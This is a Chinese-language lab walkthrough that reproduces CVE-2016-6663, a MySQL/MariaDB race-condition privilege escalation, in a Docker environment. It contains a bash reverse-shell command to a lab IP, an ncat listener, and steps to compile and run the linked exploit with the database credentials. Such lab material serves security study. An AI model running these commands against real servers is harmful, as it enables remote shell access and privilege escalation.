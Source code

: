 # CVE-2016-6663

## 环境部署

```bash
# 拉取镜像
docker pull sqlsec/cve-2016-6663
# 部署镜像
docker run -d -p 3306:3306 -p 8080:80 --name CVE-2016-6663 sqlsec/cve-2016-6663
```

添加一个 test 数据库用户，密码为 123456 并赋予一些基础权限：

```mysql
# 创建 test 数据库
mysql > create database test;

# 设置 test 密码为 123456
mysql > CREATE USER 'test'@'%' IDENTIFIED BY '123456'; 

# 赋予基础权限
mysql > grant create,drop,insert,select on test.* to 'test'@'%';

# 刷新权限
mysql > flush privileges;
```

## 漏洞复现

竞争条件提权漏洞，一个拥有 CREATE/INSERT/SELECT 低权限的账户提权成功后可以系统用户身份执行任意代码，提权的用户为 mysql 用户，概括一下就是将低权限的 www-data 权限提升为 mysql 权限

**利用成功条件**

1. Getshell 拿到 www-data 权限
2. 拿到 CREATE/INSERT/SELECT 低权限的 MySQL 账户
3. 关键提取步骤需要在交互环境下，所以需要反弹 shell
4. MySQL 版本需要 <=5.5.51 或 5.6.x <=5.6.32 或 5.7.x <=5.7.14 或 8.x < 8.0.1
5. MariaDB 版本需要 <= 5.5.51 或 10.0.x <= 10.0.27 或 10.1.x <= 10.1.17

CVE-2016-6663 EXP mysql-privesc-race.c 参考链接：[MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit](https://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html)

![image-20211028180554314](https://test-pic-test.oss-cn-guangzhou.aliyuncs.com/img/image-20211028180554314.png)

通过蚁剑上传 EXP，然后 Bash 反弹 shell：

首先 192.168.201.144 端口开启监听：

```bash
ncat -lvp 2333
```

在蚁剑终端，反弹shell

```bash
bash -i >& /dev/tcp/192.168.201.144/2333 0>&1
```

编译[exp](http://test-pic-test.oss-cn-guangzhou.aliyuncs.com/document/mysql-privesc-race.c)

```bash
gcc mysql-privesc-race.c -o mysql-privesc-race -I /usr/include/mysql -lmysqlclient
```

执行exp提权

```bash
# ./mysql-privesc-race 数据库用户名 密码 数据库地址 数据库
./mysql-privesc-race test 123456 localhost test
```

![image-20211028185918252](https://test-pic-test.oss-cn-guangzhou.aliyuncs.com/img/image-20211028185918252.png)

